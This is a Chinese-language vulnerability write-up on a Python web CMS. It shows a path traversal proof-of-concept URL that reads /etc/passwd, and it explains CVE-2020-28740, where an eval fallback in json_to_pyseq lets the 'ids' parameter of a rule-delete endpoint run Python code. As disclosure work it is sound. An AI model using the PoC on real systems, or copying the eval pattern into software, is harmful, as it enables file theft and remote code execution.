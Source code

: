 构造POC：`http://192.168.120.128:5000/api/admin/static/file?file_path=pages/account/settings/../../../../../../../../etc&filename=passwd&theme_name=osr-theme-w`

![image-20201112174207578](https://github-1300513062.cos.ap-shanghai.myqcloud.com/img/image-20201112174207578.png)

### CVE-2020-28740

rce

`apps\utils\format\obj_format.py`

如下，文件中采用了eval来转换字符串对象，当json.loads转换失败的时候，则直接使用eval来转换。

```
def json_to_pyseq(tjson):
    """
    json to python sequencer
    :param json:
    :return:
    """
    if tjson in [None, "None"]:
        return None
    elif not isinstance(tjson, (list, dict, tuple)) and tjson != "":
        if isinstance(tjson, (str, bytes)) and tjson[0] not in ["{", "[", "("]:
            return tjson
        elif isinstance(tjson, (int, float)):
            return tjson
        try:
            tjson = json.loads(tjson)
        except BaseException:
            tjson = eval(tjson)
        else:
            if isinstance(tjson, str):
                tjson = eval(tjson)
    return tjson
```

转到一个使用此方法的功能，例如`apps\modules\audit\process\rules.py`

删除规则处，传入一个ids参数，原参数值是一个hash值，但是可以修改为python代码。

```
def audit_rule_delete():

    ids = json_to_pyseq(request.argget.all('ids', []))
    if not isinstance(ids, list):
        ids = json.loads(ids)
    for i, tid in enumerate(ids):
        ids[i] = ObjectId(tid)

    r = mdbs["sys"].db.audit_rules.delete_many({"_id": {"$in": ids}})
    if r.deleted_count > 0:
        data = {"msg": gettext("Delete the success,{}").format(
            r.deleted_count), "msg_type": "s", "custom_status": 204}
    else:
        data = {
            "msg": gettext("Delete failed"),
            "msg_type": "w",
            "custom_status": 400}
    return data
```
